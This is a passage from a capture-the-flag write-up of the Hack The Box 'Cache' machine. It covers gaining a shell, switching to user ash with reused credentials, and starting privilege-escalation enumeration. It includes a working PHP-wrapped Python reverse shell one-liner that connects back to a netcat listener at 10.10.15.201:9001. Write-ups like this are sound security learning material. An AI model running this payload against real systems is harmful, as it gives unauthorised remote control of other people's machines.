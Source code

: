 To get our reverse shell, I used a payload of:

~~~php
# Had to escape single quotes inside of the payload for this to work
<?php system('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.201",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''); ?>
~~~

And set up a `netcat` listener on port 9001.

After navigating to "hms.htb/portal/lamp.php", I got a reverse shell back.

{:refdef: style="text-align: center;"}
![Reverse Shell](../../assets/img/writeups/htb/cache/www_data.png)
{: refdef}

I made this shell TTY so it was more usable (see my previous writeups for information on how to do this), and made my way to getting user.

### Getting User 

I checked the /home directory and found user `ash` and user `luffy` on the box. I recalled the credentials I found on the cache.htb site were for a user named ash. Trying the password for ash worked like a charm, and I had user.

To switch user, I ran `su ash` then entered that password. From there, I grabbed the user hash.

### Privilege Escalation

Given there was another user on the box, I had a feeling we would need to find a way to login as them before escalating to root.

#### Finding Memcached

I immediately tried to put `linPEAS` on the box to start enumerating with Ash. But oddly enough, I could not create files in any of Ash's home folder's (such as Documents) or even /tmp. I kept getting, "touch: cannot touch 'temp.txt': No such file or directory". It was very strange, and I am still not sure what caused the issue. Instead of working with `linPEAS` we decided to do some manual enumeration. We looked through any files that may have pertained to the user, then we used `netstat -l` to figure out what ports were listening on the box.

{:refdef: style="text-align: center;"}